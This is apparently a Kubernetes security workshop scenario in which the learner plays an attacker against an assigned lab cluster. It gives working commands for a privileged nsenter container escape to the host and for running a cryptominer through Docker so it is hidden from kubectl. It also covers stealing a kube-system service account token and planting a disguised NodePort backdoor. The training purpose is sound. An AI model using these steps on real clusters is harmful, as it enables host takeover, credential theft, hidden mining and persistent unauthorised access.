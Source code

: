# Persistence: Scenario 2 Attack

## Backstory

### Name: __DarkRed__

* Highly-Skilled
* Sells Exfiltrated Data for $$
* Evades detection and employs persistence
* Uses env-specific tooling
* Creates bespoke payloads
* Expert Kubernetes knowledge

### Motivations

* __Red__ notices that the website is gone and the crypto-miners have stopped reporting in.
* __Red__ asks __DarkRed__ for help trying to get back into the Kubernetes cluster and gives __DarkRed__ the IP address.
* __Red__ will split the revenue if __DarkRed__ can get the miners back up and running.

## Initial Foothold

Seeing that the URL included port `31337` and that __Red__ said it was a Kubernetes `cluster`, it was likely to be exposed via a `NodePort` `service`. With this information she has a feeling that more `services` might still be exposed to the web this way. __DarkRed__ starts with indirect enumeration, such as searching on shodan.io, and follows up with direct portscanning via `nmap`.

To see what she'd see, from the Cloud Shell Terminal, scan the hundred ports around 31337 using a command similar to "nmap -sT -A -p 31300-31399 -T4 -n -v -Pn your-ip-address-goes-here". Be absolutely sure to scan your assigned IP address.

Your Cloud Shell has a little script to help:
```console
./attack-2-helper.sh
```

This scan confirms __DarkRed's__ suspicion that more services were present in this `cluster`. They all look like webservers, so explore them briefly with your browser.

__DarkRed__ notices that two of the services look like the company's main product, but the third is a juicy ops dashboard. Her intuition says that the dashboard is probably not maintained as carefully as the real product, and she focuses her attention there. Using tools such as `dirb`, `sqlmap`, `nikto`, and `burp`, she explores the dashboard, finds a vulnerability in a common web-development library, and exploits it to gain remote code execution on the server. For convenience, __DarkRed__ installs a webshell for further exploration.

Now, let's become __DarkRed__ and leverage this new access:

## Deploying Miners

The webshell can be found at <a href="http://your-ip:31336/webshell/" target="_blank">http://your-ip:31336/webshell/</a>, and uses your workshop credentials as before.

Your Cloud Shell has a little script to help:

```console
./attack-2-helper.sh
```

Run a few commands to make sure it's working and gather some basic information:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

Review the information. Check for Kubernetes access, and find the limits of our permissions:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl; chmod 555 kubectl
kubectl get pods
kubectl get pods --all-namespaces
kubectl get nodes
kubectl auth can-i --list
```

Now that we've reviewed the basic limits of our access, let's see if we can take over the host. If we can, that will give us many more options to fulfill our nefarious whims.

Using <a href="https://twitter.com/mauilion/status/1129468485480751104" target="_blank">a neat trick from twitter</a>, let's attempt to deploy a container that gives us full host access:

```console
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Let's unpack this a little bit: The kubectl run gets us a pod with a container, but the --overrides argument makes it special.

First we see `"hostPID": true`, which breaks down the most fundamental isolation of containers, letting us see all processes as if we were on the host.

Next, we use the nsenter command to switch to a different `mount` namespace. Which one? Whichever one init (pid 1) is running in, since that's guaranteed to be the host `mount` namespace! The result is similar to doing a `HostPath` mount and `chroot`-ing into it, but this works at a lower level, breaking down the `mount` namespace isolation completely. The `privileged` security context is necessary to prevent a permissions error accessing `/proc/1/ns/mnt`.

Convince yourself that you're really on the host, using some of our earlier enumeration commands:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

It's been said that "if you have to SSH into a server for troubleshooting, you're doing Kubernetes wrong", so it's unlikely that cluster administrators are SSHing into nodes and running commands like `docker ps` directly.  By deploying our bitcoinero container via Docker on the host, it will show up in a `docker ps` listing.  However, Docker is managing the container directly and not the `kubelet`, so the malicious container _won't show up in a `kubectl get pods`_ listing.  Without additional detection capabilities, it's likely that the cluster administrator will never even notice.

First we verify Docker is working as expected, then deploy our cryptominer, and validate it seems to be running.

```console
docker ps
```

```console
docker run -d securekubernetes/bitcoinero -c1 -l10
```

```console
docker container ls
```

## Digging In
Now that __DarkRed__ has fulfilled her end of the agreement and the miners are reporting in again, she decides to explore the cluster. With root access to the host, it's easy to explore any and all of the containers. Inspecting the production web app gives access to a customer database that may be useful later -- she grabs a copy of it for "safekeeping".

It would be nice to leave a backdoor for future access. Let's become __DarkRed__ again and see what we can do:

First, let's steal the kubelet's client certificate, and check to see if it has hightened permissions:

```console
ps -ef | grep kubelet
```

Note the path to the kubelet's kubeconfig file: /var/lib/kubelet/kubeconfig

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system
```

Looks good! Let's try it:

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig run testing --image=busybox --rm -i -t -n kube-system --command echo "success"
```

Oh no! This isn't going to work. Let's try stealing the default kube-system service account token and check those permissions. We'll need to do a little UNIX work to find them, since we're not exactly using the public API.


```console
TOKEN=$(for i in `mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'`; do if [ `cat $i` = 'kube-system' ]; then cat `echo $i | sed 's/.namespace$/\/token/'`; break; fi; done)
echo -e "\n\nYou'll want to copy this for later:\n\nTOKEN=\"$TOKEN\""
```

```console
kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT auth can-i get secrets --all-namespaces
```
Yes, this looks better! We save that token in our PalmPilot for later use, and publish a NodePort that will let us access the cluster remotely in the future:

```console
cat <<EOF | kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT apply -f -
apiVersion: v1
kind: Service
metadata:
  name: istio-mgmt
  namespace: kube-system
spec:
  type: NodePort
  ports:
    - protocol: TCP
      nodePort: 31313
      port: 31313
      targetPort: $KUBERNETES_SERVICE_PORT
---
apiVersion: v1
kind: Endpoints
metadata:
  name: istio-mgmt
  namespace: kube-system
subsets:
  - addresses:
      - ip: `sed -n 's/^  *server: https:\/\///p' /var/lib/kubelet/kubeconfig`
    ports:
      - port: $KUBERNETES_SERVICE_PORT
EOF
```

Press control-d to exit (and delete) the `r00t` pod.

If you like, you may validate that external access is working, using cloud shell:

```console
if [ -z "$TOKEN" ]; then
  echo -e "\n\nPlease paste in the TOKEN=\"...\" line and try again."
else
  EXTERNAL_IP=`gcloud compute instances list --format json | jq '.[0]["networkInterfaces"][0]["accessConfigs"][0]["natIP"]' | sed 's/"//g'`
  kubectl --token "$TOKEN" --insecure-skip-tls-verify --server "https://${EXTERNAL_IP}:31313" get pods --all-namespaces
fi
```

Now we have remote Kubernetes access, and our associate's bitcoinero containers are invisible. All in a day's work.

